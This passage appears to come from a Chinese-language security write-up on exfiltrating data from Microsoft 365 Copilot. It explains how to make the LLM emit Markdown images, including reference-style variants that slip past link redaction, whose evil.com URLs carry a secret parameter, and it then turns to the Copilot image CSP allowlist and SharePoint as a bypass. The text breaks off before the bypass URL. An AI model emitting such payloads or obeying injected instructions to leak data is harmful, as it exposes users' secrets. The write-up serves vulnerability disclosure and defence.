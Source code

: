 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/rhmRSVBNbicqfOg5RdfhSibjGvAPibBYgFiceq70f4HDIIJuty7R8eJYutaZ7gf851bLYrndtEjtnuvEAKN8uy51Og/640?from=appmsg "")  
  
步骤3：绕过图像编辑  
  
然后我们想，为什么要满足于用户点击链接呢？我们可以做得更好。让我们尝试让 LLM 输出一张图片。浏览器会自动尝试获取图片，所以我们不需要用户点击任何东西，而是让浏览器帮我们“点击链接”。Markdown 图片的格式与 Markdown 链接大致相同，但前面会有一个感叹号：  
  
```
![Image alt text](https://www.evil.com/image.png?param=<secret>)
```  
  
  
此类 Markdown 图像格式也同样会受到链接编辑的影响。Markdown 的功能远超你的想象，它还支持引用样式的图像：  
  
```
![Image alt text][ref][ref]: https://www.evil.com?param=<secret>
```  
  
  
其他有效且未被删除的变体：  
  
```
![Image alt text][ref][ref]: https://www.evil.com?param=<secret>
```  
  
  
```
![Image alt text][][Image alt text]: https://www.evil.com?param=<secret>
```  
  
  
这应该可以让我们自动泄露任何秘密，对吗？  
  
好吧，如果强制将 URL 列入白名单的内容安全策略 (CSP) 对此有发言权的话，情况就不一样了。微软在 M365 Copilot 网页上设置了以下 img-src CSP：  
  
```
*.cdn.office.net*.df.onecdn.static.microsoft*.public.onecdn.static.microsoft*.bing.combing.comres-dev.cdn.officeppe.net*.sharepoint-df.com*.sharepoint.commedia.licdn.comspoprod-a.akamaihd.netprod.msocdn.comcontent.powerapps.com*.teams.microsoft.com*.s-microsoft.com*.sharepointonline.comconnectoricons-df.azureedge.netconnectoricons-prod.azureedge.netcpgeneralstore.blob.core.chinacloudapi.cndepservstorageussec.blob.core.microsoft.sclouddepservstorageusnat.blob.core.eaglex.ic.govtip1apiicons.cdn.powerappscdn.nettip2apiicons.cdn.powerappscdn.netprodapiicons.cdn.powerappscdn.netaz787822.vo.msecnd.netcms-aiplugin.azureedge.netpowerautomate.microsoft.com*.osi.office.net*.osi.officeppe.netdesigner.microsoft.combing.com*.sharepointonline.com*.sharepoint-df.comconnectoricons-df.azureedge.netconnectoricons-prod.azureedge.netcpgeneralstore.blob.core.chinacloudapi.cndepservstorageussec.blob.core.microsoft.sclouddepservstorageusnat.blob.core.eaglex.ic.govtip1apiicons.cdn.powerappscdn.nettip2apiicons.cdn.powerappscdn.netprodapiicons.cdn.powerappscdn.netaz787822.vo.msecnd.netcms-aiplugin.azureedge.netpowerautomate.microsoft.com
```  
  
  
因此，本质上我们现在可以让 LLM 响应一张图片，但浏览器不会尝试帮我们获取图片，因为 evil.com 与 img-src CSP 不兼容。  
  
步骤 4：使用 SharePoint 绕过 CSP  
  
我们手头上有一个 GET 原语，可以访问 CSP 允许的任何域名，但由于浏览器需要的是图片，它不会进行重定向或执行任何客户端代码。这引发了我们一个挑剔的、深入研究允许域名的过程。首先想到的是那些与 SharePoint 相关的域名。  
  
长话短说，SharePoint Online (SPO) 不再允许开发人员将服务器端代码包含到网站或页面中和/或将查询字符串参数传递给底层 PowerAutomate 应用程序。  
  
经过对不同服务进行一番繁琐的挖掘后，我们发现了以下 URL：  
  